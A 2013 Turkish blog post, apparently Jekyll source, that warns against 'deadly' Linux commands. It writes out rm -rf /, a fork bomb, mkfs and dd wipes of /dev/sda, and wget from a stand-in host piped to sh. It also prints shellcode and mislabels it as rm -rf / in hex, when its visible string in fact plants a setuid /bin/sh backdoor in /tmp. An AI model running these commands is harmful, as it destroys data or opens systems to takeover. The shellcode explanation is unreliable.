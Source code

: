 ```yaml
---
layout: post
title: "Ölümcül Linux Komutları"
date: 2013-05-02 16:55
comments: true
categories:
---
```

Bilindiği üzere linux çok güçlü bir komut kümesine sahip. Tabii ki büyük güç yanında büyük bir sorumlulukta getiriyor.(bknz. Spiderman)  
Ne yaptığınızdan emin değilseniz kullanmamanız gereken komutlar olsun ya da çok kullandığınız bir komutun yanlış kullanımı olsun bunlar
sisteminize büyük zarar verebilir. Komut satırı kullanma aşkıyla internette gördüğünüz her komutu direk kopyala yapıştır yaparsanız
sisteminiz yine göçebilir.  Şimdi biraz bu "ölümcül" komutlardan bahsedelim.  
<!--more-->
## rm -rf /

`rm` komutunu genellikle çok fazla kullanırız. Mahsum bir dosya/dizin silmeye yarayan komut. Ama yukardaki argümanlar `rm`'nin
adeta bir canavara dönüşmesini sağlıyor. Sisteminizde ne var ne yok herşeyi siliyor.( Buna harddiskiniz ve o anda bağlı flashdisklerde dahil )
Komutu incelersek:  
`rm`  => silme işini yapıyor.  
`-rf` => `rm`'nin öz yineli bir şekilde çalışmasını ve hiç bir uyarı vermeden dizinler ve dizinlerin içindeki dizin ve dosyaları silmesini sağlıyor.  
`/`   => silmeye kök diziden başlanacağını belirtiyor.  
Bu komutu yazıp enter'e basarsanız bütün bilgilerinizin silinmesini neden olursunuz.  
**rm -rf ~** bu komut ise benzer şekilde ev dizininizin silinmesine neden olur.  
Sonuç: `rm` komutunu kullanırken dikkatli olmak lazım.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;

Yukardaki gibi herhangi bir acayip kodu internete bir yerde görüp ne işe yarıyor diye de olsa makinanızda çalıştırmayın.  
Neden mi? Çünkü yukardaki kod **rm -rf /** in HEX halidir. Yine sisteminize elveda diyebilirsiniz.
## :(){ :|: & };:
Yukardaki komuta baktığınızda ilk başta bir çeşit `smiley` kombosu olarak görebilirsiniz. Ama bu bir fonksiyon hemde `bash`
fonksiyonudur. Bu haliyle anlaşılması biraz zor, birde bu haline bakalım:
```  bash
    :() {
        :|:&
    };
    :
```
Şimdi biraz daha açık şekilde gözküyor. `:` fonksiyon ismi(fonksiyon isimleri `bash`te böyle yazılabiliyor). Bu fonksiyon sürekli
kendisinin bir kopyasını üretiyor. Belleğinizi ve CPU'nuzu doldurup makinanızın donmasını ve ya kitlenmesini sağlıyor.  
`fork bomb` denilen bu tür fonksiyonlar her dilde yazılabilir. Tipik DOS(Denial of Service) ataklarıdır.  
Ayrıntılı bilgi için:[Fork Bombaları](http://en.wikipedia.org/wiki/Fork_bomb)

## mkfs.ext4 /dev/sda1
Bu komutumuzda windows işletim sistemindeki  `format c:\` komutu benzeri. Belirtilen (burada `/dev/sda1` olan) harddisk bölümünü formatlıyor.  
`mkfs.ext4` => `ext4` dosya sistemine sahip bir bölüm oluşturur.  
`/dev/sda1`  =>  hedef harddisk bölümü.  

## \[program\] > /dev/sda
Bu komutumuz ise herhangi bir programın çıktısını direk olarak harddisk bölümüne yazar.  
Burada `>` karakteri programın çıktısını `dev/sda` ya göndererek oradaki bilgilerin üzerine yazmasını sağlar.

## dd if=/dev/random of=/dev/sda
Yine yukardaki komuta benzer olarak bu komutta harddiskin verilen bölümüne yazma yapar.  
`dd` => kopyalama işlemini gerçekleştirir.  
`if=/dev/random` => kaynak olarak `/dev/random(rastgele veriler)` al.  
`of=/dev/sda`    => hedef olarak `/dev/sda` al.  

## mv ~ /dev/null
`/dev/null` linux işletim sisteminin tabir-i caizse kara deliğidir. Ne atarsanız yutup yok eder.  
`mv` => taşıma işlemini yapam komut  
`~`  => ev dizini  
`/dev/null` => taşınacak yer  
Yani ev dizinin deki bütün dosyaları alıp götürüp kara deliğe atıyorsunuz.  

## wget http://virus.com/virusludosya -O – | sh
Yukardaki komut ise bir web sitesinden bir program indirip direk çalıştırıyor. Çok tehlikeli bir yaklaşım. Kesinlikle güvenmediğiniz ve ya
ne olduğundan emin olmadığınız dosyalar üzerinde denemeyin.  
`wget` => dosya indirme komutu  
`http://virus.com/virusludosya -O -` => indirilicek dosya  
`| sh`  => çalıştıracak program  

[kaynak](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)

